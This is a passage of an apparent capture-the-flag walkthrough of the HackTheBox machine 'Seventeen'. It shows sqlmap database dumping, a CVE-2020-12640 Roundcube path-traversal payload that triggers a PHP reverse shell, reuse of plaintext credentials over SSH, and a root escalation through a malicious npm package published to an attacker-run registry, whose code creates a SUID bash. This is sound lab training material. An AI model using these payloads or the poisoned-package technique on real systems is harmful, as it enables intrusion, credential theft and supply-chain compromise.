However, there's only a single file which is not the one that I uploaded.
Maybe it stores newly uploaded files to somewhere else.

Let's move on to the new subdomain.

### http(8000) - mastermailer.seventeen.htb


Given the name "roundcubedb" (One that I retrieved ahead), it seems to be related with this mail service.
Let's dump the database.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D roundcubedb --tables

...SNIP...

Database: roundcubedb
[14 tables]
+---------------------+
| cache               |
| session             |
| system              |
| cache_index         |
| cache_messages      |
| cache_shared        |
| cache_thread        |
| contactgroupmembers |
| contactgroups       |
| contacts            |
| dictionary          |
| identities          |
| searches            |
| users               |
+---------------------+
```

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ sqlmap -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch -D roundcubedb -T users --dump

...SNIP...

Database: roundcubedb
Table: users
[1 entry]
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| user_id | created             | username   | mail_host | language   | last_login          | preferences                                                       | failed_login        | failed_login_counter |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
| 1       | 2022-03-19 21:30:30 | smtpmailer | localhost | en_US      | 2022-03-22 13:41:05 | a:1:{s:11:"client_hash";s:32:"0db936ce29d4c4d2a2f82db8b3d7870c";} | 2022-03-23 15:32:37 | 3                    |
+---------+---------------------+------------+-----------+------------+---------------------+-------------------------------------------------------------------+---------------------+----------------------+
```

I tried to crack the found hash, but it was not crackable.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ hashcat -m 0 -a 0 roundcubedb_users.md5 /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

...SNIP...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 0 (MD5)
Hash.Target......: 0db936ce29d4c4d2a2f82db8b3d7870c
```

I found `/CHANGELOG` sub page which might contains version information.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://mastermailer.seventeen.htb:8000/mastermailer -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mastermailer.seventeen.htb:8000/mastermailer
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/skins                (Status: 301) [Size: 360] [--> http://mastermailer.seventeen.htb:8000/mastermailer/skins/]
/bin                  (Status: 301) [Size: 358] [--> http://mastermailer.seventeen.htb:8000/mastermailer/bin/]
/plugins              (Status: 301) [Size: 362] [--> http://mastermailer.seventeen.htb:8000/mastermailer/plugins/]
/program              (Status: 301) [Size: 362] [--> http://mastermailer.seventeen.htb:8000/mastermailer/program/]
/temp                 (Status: 403) [Size: 293]
/vendor               (Status: 301) [Size: 361] [--> http://mastermailer.seventeen.htb:8000/mastermailer/vendor/]
/config               (Status: 403) [Size: 293]
/logs                 (Status: 403) [Size: 293]
/INSTALL              (Status: 200) [Size: 12529]
/LICENSE              (Status: 200) [Size: 35147]
/SQL                  (Status: 301) [Size: 358] [--> http://mastermailer.seventeen.htb:8000/mastermailer/SQL/]
/CHANGELOG            (Status: 200) [Size: 177290]
/installer            (Status: 301) [Size: 364] [--> http://mastermailer.seventeen.htb:8000/mastermailer/installer/]
/public_html          (Status: 301) [Size: 366] [--> http://mastermailer.seventeen.htb:8000/mastermailer/public_html/]
/UPGRADING            (Status: 200) [Size: 4148]
Progress: 40696 / 220561 (18.45%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 40725 / 220561 (18.46%)
===============================================================
Finished
===============================================================
```



It seems that current version is 1.4.2.

I googled for long, and found one valid exploit : CVE-2020-12640


# Shell as `www-data` on docker container

### Method #1 > CVE-2020-12640

According to the explanation of the [exploit](https://github.com/DrunkenShells/Disclosures/tree/master/CVE-2020-12640-PHP%20Local%20File%20Inclusion-Roundcube),
A Path Traversal vulnerability exists in Roundcube versions before 1.4.4, 1.3.11 and 1.2.10.  
Because the `_plugins_<PLUGIN_NAME>` parameters do not perform sanitization/input filtering, an attacker with access to the Roundcube Installer can leverage a path traversal vulnerability to include arbitrary PHP files on the local system.

However, it assumes I can write a file in anywhere of the target server.
While I don't have any valid shell on the target, I have passed the only upload vector : School File Management System!

According to the PoC explanation, if there's a directory `/directory` and php file `/directory.php` exists, and fetching `/directory`, the server returns `directory.php` file to execute.


I need to check if there's any directory exists on `/oldmanagement/files/31234` directory.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/papers               (Status: 301) [Size: 376] [--> http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers/] 
```

Then, I can trigger the same POST request from `/installer` page by "update config".


I can change the data field with the following payload.
The web root directory could be either `/var/www/html/oldmanagemenet` or `/var/www/oldmanagement`.

```
_plugins_qwerty=../../../../../../../../../var/www/html/oldmanagement/files/31234/papers&_step=2&_product_name=Seventeen+Webmail&submit=UPDATE+CONFIG
```

Before sending the request, let's upload a file `papers.php` to spawn a reverse shell.
I used `php-reverse-shell.php` as its template.


Then, I sent the request, and got 200 OK response.


Then, I fetched the mailmaster's main page (http://mastermailer.seventeen.htb:8000/mastermailer/), and wait on the listener.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.165] 55546
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cb377ac091e5:/var/www/html/mastermailer$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cb377ac091e5:/var/www/html/mastermailer$ whoami
whoami
www-data
```

Soon, I got a shell as `www-data`!

### Method #2 > Modify `.htaccess` file

What’s likely blocking this file on an Apache webserver is an `.htaccess` file. This file defines custom rules for how files are handled in the current directory.
There's a designated wordlist in `seclist` for roundcube.
I used this with `gobuster`.

```markdown
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ gobuster dir -u http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234 -w /usr/share/seclists/Discovery/Web-Content/Roundcube-123.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/Roundcube-123.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 18]

...SNIP...
```

Given that, I though I can bypass the PHP execution blocking by overwriting `.htaccess` file.

First, I prepared an empty `.htaccess` file. (`htaccess` initially, and prepend dot(.) later)

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ touch htaccess
```

Then, I uploaded it using `oldmanagement` domain.
I changed the file name as follows;


Then, let's fetch the same php file (`papers.php`) directly.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ curl http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers.php
```

Soon, I can open a shell with listener in the same method.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.165] 55588
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@cb377ac091e5:/var/www/html/oldmanagement/files/31234$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@cb377ac091e5:/var/www/html/oldmanagement/files/31234$ whoami
whoami
www-data
```


# Shell as `mark`

### Enumeration

Given the hostname, I guessed that the obtained shell is on docker container.

```bash
www-data@cb377ac091e5:/var/www/html/oldmanagement/admin$ hostname
hostname
cb377ac091e5
```


```bash
www-data@cb377ac091e5:/var/www/html/oldmanagement/admin$ cat conn.php
cat conn.php
<?php
        $conn = mysqli_connect("127.0.0.1", "mysqluser", "mysqlpassword", "db_sfms");

        if(!$conn){
                die("Error: Failed to connect to database!");
        }

        $default_query = mysqli_query($conn, "SELECT * FROM `user`") or die(mysqli_error());
        $check_default = mysqli_num_rows($default_query);

        if($check_default === 0){
                $enrypted_password = md5('admin');
                mysqli_query($conn, "INSERT INTO `user` VALUES('', 'Administrator', '', 'admin', '$enrypted_password', 'administrator')") or die(mysqli_error());
                return false;
        }
?>
```

DB credential is found : `mysqluser` : `mysqlpassword`

There is a normal user found : `mark`

```bash
www-data@cb377ac091e5:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash

...SNIP...

mark:x:1000:1000:,,,:/var/www/html:/bin/bash
```

There's a credential found in `/var/www/html/employeemanagementsystem`.

```bash
www-data@cb377ac091e5:/var/www/html/employeemanagementsystem$ grep -ir "password" .

...SNIP...

./process/dbh.php:$dbPassword = "2020bestyearofmylife";
./process/dbh.php:$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

...SNIP...
```

Here's the found credential : `root` : `2020bestyearofmylife`

```bash
www-data@cb377ac091e5:/var/www/html/employeemanagementsystem$ cat process/dbh.php
</html/employeemanagementsystem$ cat process/dbh.php          
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
        echo "Databese Connection Failed";
}

?>
```

Using the found 2 credentials, I tried to sign-in with multiple usernames.
And the password `2020bestyearofmylife` worked with `mark` on `seventeen.htb` host.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ ssh mark@seventeen.htb
mark@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 16 11:31:17 UTC 2025

  System load:                    0.25
  Usage of /:                     60.6% of 11.75GB
  Memory usage:                   54%
  Swap usage:                     0%
  Processes:                      358
  Users logged in:                0
  IP address for eth0:            10.10.11.165
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1

18 updates can be applied immediately.
12 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue May 31 18:03:16 2022 from 10.10.14.23
mark@seventeen:~$ id
uid=1001(mark) gid=1001(mark) groups=1001(mark)
mark@seventeen:~$ whoami
mark
```


# Shell as `kavi`

### Enumeration

```bash
mark@seventeen:~$ ls -al
total 36
drwxr-x--- 5 mark mark 4096 May 11  2022 .
drwxr-xr-x 4 root root 4096 Apr  8  2022 ..
lrwxrwxrwx 1 mark mark    9 Apr 10  2022 .bash_history -> /dev/null
-rw-r--r-- 1 mark mark  220 Apr  8  2022 .bash_logout
-rw-r--r-- 1 mark mark 3771 Apr  8  2022 .bashrc
drwx------ 2 mark mark 4096 Apr  8  2022 .cache
drwx------ 3 mark mark 4096 Apr  8  2022 .gnupg
drwxrwxr-x 2 mark mark 4096 May 31  2022 .npm
-rw-r--r-- 1 mark mark  807 Apr  8  2022 .profile
-rw-r----- 1 root mark   33 Mar 15 19:30 user.txt
```

Let's run `linPEAS`.

```ruby
╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.21p2    


╔══════════╣ Users with console
kavi:x:1000:1000:kavi:/home/kavi:/bin/bash
mark:x:1001:1001:,,,:/home/mark:/bin/bash
root:x:0:0:root:/root:/bin/bash


══╣ Possible private SSH keys were found!
/etc/ImageMagick-6/mime.xml


╔══════════╣ Mails (limit 50)
   133787      4 -rw-r--r--   1 kavi     mail          740 Mar 14  2022 /var/mail/kavi       
   133787      4 -rw-r--r--   1 kavi     mail          740 Mar 14  2022 /var/spool/mail/kavi


╔══════════╣ Active Ports
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#open-ports 
tcp        0      0 127.0.0.1:110           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:43855         0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:143           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6000          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6001          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:8081          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6002          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6003          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6004          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6005          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6006          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6007          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6008          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:6009          0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:993           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:995           0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:4873          0.0.0.0:*               LISTEN
tcp        0      0 172.18.0.1:3306         0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
```

Let's identify ports;
- 110, 143 : mail service
- 6000~6009 : docker related?
- 53 : dns
- 22 : ssh
- 4873 : Unknown

Let's read mails.

```bash
mark@seventeen:/dev/shm$ cat /var/mail/kavi
To: kavi@seventeen.htb
From: admin@seventeen.htb
Subject: New staff manager application

Hello Kavishka,

Sorry I couldn't reach you sooner. Good job with the design. I loved it. 

I think Mr. Johnson already told you about our new staff management system. Since our old one had some problems, they are hoping maybe we could migrate to a more modern one. For the first phase, he asked us just a simple web UI to store the details of the staff members.

I have already done some server-side for you. Even though, I did come across some problems with our private registry. However as we agreed, I removed our old logger and added loglevel instead. You just have to publish it to our registry and test it with the application. 

Cheers,
Mike
```

The mail talks about "new staff management system".
Also, it talks about `loglevel`.


It seems to e related with `npm` service.

```bash
mark@seventeen:/dev/shm$ curl http://localhost:4873

    <!DOCTYPE html>
      <html lang="en-us"> 
      <head>
        <meta charset="utf-8">
        <base href="http://localhost:4873/">
        <title>Verdaccio</title>        
        <link rel="icon" href="http://localhost:4873/-/static/favicon.ico"/>
        <meta name="viewport" content="width=device-width, initial-scale=1" /> 
        <script>
            window.__VERDACCIO_BASENAME_UI_OPTIONS={"darkMode":false,"basename":"/","base":"http://localhost:4873/","primaryColor":"#4b5e40","version":"5.6.0","pkgManagers":["yarn","pnpm","npm"],"login":true,"logo":"","title":"Verdaccio","scope":"","language":"es-US"}
        </script>
        
      </head>    
      <body class="body">
      
        <div id="root"></div>
        <script defer="defer" src="http://localhost:4873/-/static/runtime.06493eae2f534100706f.js"></script><script defer="defer" src="http://localhost:4873/-/static/vendors.06493eae2f534100706f.js"></script><script defer="defer" src="http://localhost:4873/-/static/main.06493eae2f534100706f.js"></script>
        
      </body>
    </html>
```

It seems that there's a service running on port 4873.
I opened a Local Port Forwarding using `ssh`.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ ssh -L 4873:localhost:4873 mark@seventeen.htb
```

### node.js(4873)


I searched and found out that `Verdaccio` is a private repository for NPM.


The email mentioned the “old logger”, and talk about using “our registry”. I’ll try to search for what logging modules are in the local registry:

I searched with `npm` command.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ npm search log --registry http://127.0.0.1:4873
NAME                      | DESCRIPTION          | AUTHOR          | DATE        | VERSION  |
db-logger                 | Log data to a…       | =undefined      | prehistoric |          |
loglevel                  | Minimal lightweight… | =undefined      | prehistoric |          |
```

Given the mail that `loglevel` is the new one, I guessed that `db-logger` is the older one.
Let's download the package and investigate it.

```bash
mark@seventeen:/dev/shm$ npm install db-logger --registry http://127.0.0.1:4873
/dev/shm
└─┬ db-logger@1.0.1 
  └─┬ mysql@2.18.1 
    ├── bignumber.js@9.0.0 
    ├─┬ readable-stream@2.3.7 
    │ ├── core-util-is@1.0.3 
    │ ├── inherits@2.0.4 
    │ ├── isarray@1.0.0 
    │ ├── process-nextick-args@2.0.1 
    │ ├── string_decoder@1.1.1 
    │ └── util-deprecate@1.0.2 
    ├── safe-buffer@5.1.2 
    └── sqlstring@2.3.1 

npm WARN enoent ENOENT: no such file or directory, open '/dev/shm/package.json'
npm WARN shm No description
npm WARN shm No repository field.
npm WARN shm No README data
npm WARN shm No license field.
```

Then I can see the downloaded package files.

```bash
mark@seventeen:/dev/shm$ tree
.
└── node_modules
    ├── bignumber.js
    │   ├── bignumber.d.ts
    │   ├── bignumber.js
    │   ├── bignumber.min.js
    │   ├── bignumber.min.js.map
    │   ├── bignumber.mjs
    │   ├── CHANGELOG.md
    │   ├── doc
    │   │   └── API.html
    │   ├── LICENCE
    │   ├── package.json
    │   └── README.md
    ├── core-util-is
    │   ├── lib
    │   │   └── util.js
    │   ├── LICENSE
    │   ├── package.json
    │   └── README.md
    ├── db-logger
    │   ├── logger.js
    │   └── package.json

...SNIP...
```

Then, from `/db-logger/logger.js` file, I can find a credential.

```bash
mark@seventeen:/dev/shm/node_modules$ grep -ir "password" . | more
./db-logger/logger.js:  password: "IhateMathematics123#",
./mysql/Readme.md:  password : 'secret',
./mysql/Readme.md:  password : 'secret'

...SNIP...
```

```bash
mark@seventeen:/dev/shm/node_modules/db-logger$ cat logger.js
var mysql = require('mysql');

var con = mysql.createConnection({
  host: "localhost",
  user: "root",
  password: "IhateMathematics123#",
  database: "logger"
});

function log(msg) {
    con.connect(function(err) {
        if (err) throw err;
        var date = Date();
        var sql = `INSERT INTO logs (time, msg) VALUES (${date}, ${msg});`;
        con.query(sql, function (err, result) {
        if (err) throw err;
        console.log("[+] Logged");
        });
    });
};

module.exports.log = log
```

The extracted password is `IhateMathematics123#`.
Let's test this credential with `kavi`.

```bash
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ ssh kavi@seventeen.htb          
kavi@seventeen.htb's password: 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-177-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Mar 16 14:42:22 UTC 2025

  System load:                    0.04
  Usage of /:                     60.8% of 11.75GB
  Memory usage:                   61%
  Swap usage:                     0%
  Processes:                      359
  Users logged in:                1
  IP address for eth0:            10.10.11.165
  IP address for br-3539a4850ffa: 172.20.0.1
  IP address for docker0:         172.17.0.1
  IP address for br-b3834f770aa3: 172.18.0.1
  IP address for br-cc437cf0c6a8: 172.19.0.1


18 updates can be applied immediately.
12 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
kavi@seventeen:~$ id
uid=1000(kavi) gid=1000(kavi) groups=1000(kavi)
kavi@seventeen:~$ whoami
kavi
```

It worked! I got a shell as `kavi`.


# Shell as `root`

### Enumeration

Let's review `linPEAS` result again.

```ruby
╔══════════╣ Executable files potentially added by user (limit 70)
2022-05-29+14:01:14.8952580490 /opt/app/startup.sh   
```

It seems that there's an app on `/opt/app`.

```bash
kavi@seventeen:/opt/app$ ls
index.html  index.js  node_modules  startup.sh


kavi@seventeen:/opt/app$ cat index.js
const http = require('http')
const port = 8000
const fs = require('fs')
//var logger = require('db-logger')
var logger = require('loglevel')

const server = http.createServer(function(req, res) {
    res.writeHead(200, {'Content-Type': 'text/html'})
    fs.readFile('index.html', function(error, data){
        if (error) {
            res.writeHead(404)
            res.write('Error: File Not Found')
            logger.debug(`INFO: Reuqest from ${req.connection.remoteAddress} to /`)

        } else {
            res.write(data)
        }
    res.end()
    })
})

server.listen(port, function(error) {
    if (error) {
        logger.warn(`ERROR: Error occured while starting the server : ${e}`)
    } else {
        logger.log("INFO:  Server running on port " + port)
    }
})
```

Given that the package `db-logger` is commented out, I guessed that this is the one that was mentioned on the mail.

```bash
kavi@seventeen:/opt/app$ cat startup.sh
#!/bin/bash

cd /opt/app

deps=('db-logger' 'loglevel')

for dep in ${deps[@]}; do
    /bin/echo "[=] Checking for $dep"
    o=$(/usr/bin/npm -l ls|/bin/grep $dep)

    if [[ "$o" != *"$dep"* ]]; then
        /bin/echo "[+] Installing $dep"
        /usr/bin/npm install $dep --silent
        /bin/chown root:root node_modules -R
    else
        /bin/echo "[+] $dep already installed"

    fi
done

/bin/echo "[+] Starting the app"

/usr/bin/node /opt/app/index.js
```

```bash
kavi@seventeen:~$ sudo /opt/app/startup.sh
[sudo] password for kavi: 
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.8.0 
└── mysql@2.18.1 
```


The `startup.sh` script checks if `db-logger` and `loglevel` are installed, and install if it's not.

```bash
kavi@seventeen:/opt/app$ sudo -l
[sudo] password for kavi:                                                                    
Matching Defaults entries for kavi on seventeen:                                             
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kavi may run the following commands on seventeen:
    (ALL) /opt/app/startup.sh
```

The user `kavi` can run `startup.sh` as `root` user due to `sudo` setup.

```bash
kavi@seventeen:~$ cat .npmrc
registry=http://127.0.0.1:4873/
```

`.npmrc` file contains registry information, which is pointing to localhost itself.

### Exploit NPM registry

So far what we have checked are as follows;
- `startup.sh` is run as `root` by `sudo` permission.
- `startup.sh` keeps checking and installing `loglevel`, and `db-logger` packages.
- `.npmrc` specifies the NPM registry, and the file is writable by `kavi`.

So here is my strategy;
- Prepare `docker` running on Kali.
- Build up a new Verdaccio repository on Kali.
- Change `.npmrc` to point Kali.
- Prepare `db-logger` package with payload inserted.
- Run `startup.sh` with `sudo` command.

Here's a guide to setup Verdaccio on Kali : https://verdaccio.org/docs/docker/

Let's pull the image.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio]
└─$ sudo docker pull verdaccio/verdaccio
Using default tag: latest
latest: Pulling from verdaccio/verdaccio
cb8611c9fe51: Pull complete 
5481bd4e72c9: Pull complete 
b3327fd6c91f: Pull complete 
d83242e23d0a: Pull complete 
bd27cb177d98: Pull complete 
ee5e7a81ab5a: Pull complete 
b7a46727f474: Pull complete 
a8c9ed0899b7: Pull complete 
e7de84421412: Pull complete 
617a1dee3b5b: Pull complete 
65762732ab2a: Pull complete 
dabb05472980: Pull complete 
Digest: sha256:58353ed1b53ebb3e6fc2925a5384f70a4aa3ddac7a1402d717a39951e7ab43ad
Status: Downloaded newer image for verdaccio/verdaccio:latest
docker.io/verdaccio/verdaccio:latest
```

Then, run the container.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio]
└─$ sudo docker run -it --rm --name verdaccio -p 4873:4873 verdaccio/verdaccio
info --- config file  - /verdaccio/conf/config.yaml
info --- the "crypt" algorithm is deprecated consider switch to "bcrypt" in the configuration file. Read the documentation for additional details                                         
info --- using htpasswd file: /verdaccio/storage/htpasswd
info --- plugin successfully loaded: verdaccio-htpasswd
info --- plugin successfully loaded: verdaccio-audit
warn --- http address - http://0.0.0.0:4873/ - verdaccio/6.0.5
```

Then, prepare package.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio]
└─$ mkdir loglevel   


┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio]
└─$ cd loglevel                         


┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ npm init                            
This utility will walk you through creating a package.json file.
It only covers the most common items, and tries to guess sensible defaults.

See `npm help init` for definitive documentation on these fields
and exactly what they do.

Use `npm install <pkg>` afterwards to install a package and
save it as a dependency in the package.json file.

Press ^C at any time to quit.
package name: (loglevel) 
version: (1.0.0) 1.9.3
description: 
entry point: (index.js) 
test command: 
git repository: 
keywords: 
author: 
license: (ISC) 
About to write to /home/kali/htb/seventeen/Verdaccio/loglevel/package.json:

{
  "name": "loglevel",
  "version": "1.8.1",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1"
  },
  "author": "",
  "license": "ISC"
}


Is this OK? (yes) 


┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ ls
package.json
```

Then create `index.js` file to run commands.

```javascript
const cp = require("child_process")

cp.exec("{command wanna use}");

function log(msg) {
    console.log(msg);
}

function debug(msg) {
    console.log(msg);
}

function warn(msg) {
    console.log(msg);
}

module.exports.log = log;
```

Simpler version is as follows;

```lua
require("child_process").exec("{command wanna use}");
```

I used the following payload the make rootbash.

```
cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash
```

Then, change the `.npmrc` registry.

```bash
kavi@seventeen:/opt/app$ cat ~/.npmrc
registry=http://10.10.14.15:4873/
```

I need to do `adduser` and `publish` as well.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ npm adduser --registry http://10.10.14.15:4873 --auth-type=legacy
npm notice Log in on http://10.10.14.15:4873/
Username: 0x7377
Password: 
Email: (this IS public) 0x7377@bokchee.com
Logged in on http://10.10.14.15:4873/.
```

I added `--auth-type=legacy` option to resolve error.

```bash
┌──(kali㉿kali)-[~/htb/seventeen/Verdaccio/loglevel]
└─$ npm publish --registry http://10.10.14.15:4873
npm notice 
npm notice 📦  loglevel@1.9.3
npm notice === Tarball Contents === 
npm notice 87B  index.js    
npm notice 204B package.json
npm notice === Tarball Details === 
npm notice name:          loglevel                                
npm notice version:       1.9.3                                   
npm notice filename:      loglevel-1.9.3.tgz                      
npm notice package size:  319 B                                   
npm notice unpacked size: 291 B                                   
npm notice shasum:        ea5259e86c5cb136657b8eac96b83c5683852aae
npm notice integrity:     sha512-4YnGcw4EBZ5Vy[...]yMFmvLzIqCBdw==
npm notice total files:   2                                       
npm notice 
npm notice Publishing to http://10.10.14.15:4873/ with tag latest and default access
+ loglevel@1.9.3
```

Then, I ran `startup.sh`.

```bash
kavi@seventeen:/opt/app$ sudo /opt/app/startup.sh
[=] Checking for db-logger
[+] db-logger already installed
[=] Checking for loglevel
[+] Installing loglevel
/opt/app
├── loglevel@1.9.3 
└── mysql@2.18.1 

[+] Starting the app
/opt/app/index.js:26
        logger.log("INFO:  Server running on port " + port)
               ^

TypeError: logger.log is not a function
    at Server.<anonymous> (/opt/app/index.js:26:16)
    at Object.onceWrapper (events.js:313:30)
    at emitNone (events.js:106:13)
    at Server.emit (events.js:208:7)
    at emitListeningNT (net.js:1394:10)
    at _combinedTickCallback (internal/process/next_tick.js:135:11)
    at process._tickCallback (internal/process/next_tick.js:180:9)
    at Function.Module.runMain (module.js:695:11)
    at startup (bootstrap_node.js:188:16)
    at bootstrap_node.js:609:3
```

Then, I can see that `rootbash` has been created.

```bash
kavi@seventeen:/opt/app$ ls -al /tmp/rootbash
-rwsr-xr-x 1 root root 1113504 Mar 16 16:38 /tmp/rootbash
```

Using this binary, I can get a shell as `root`.

```bash
kavi@seventeen:/tmp$ ./rootbash -p
rootbash-4.4# whoami
root
rootbash-4.4# id
uid=1000(kavi) gid=1000(kavi) euid=0(root) groups=1000(kavi)
```
